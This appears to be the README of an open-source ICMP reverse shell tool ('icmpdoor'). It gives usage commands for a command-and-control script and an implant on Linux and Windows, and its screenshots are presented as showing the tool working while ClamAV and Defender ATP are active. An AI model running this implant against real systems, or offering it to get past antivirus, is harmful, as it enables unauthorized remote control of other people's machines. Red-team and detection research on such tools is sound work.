 # ICMP Reverse Shell
ICMP reverse shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

Python version (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Widows binary version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Parameters details:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
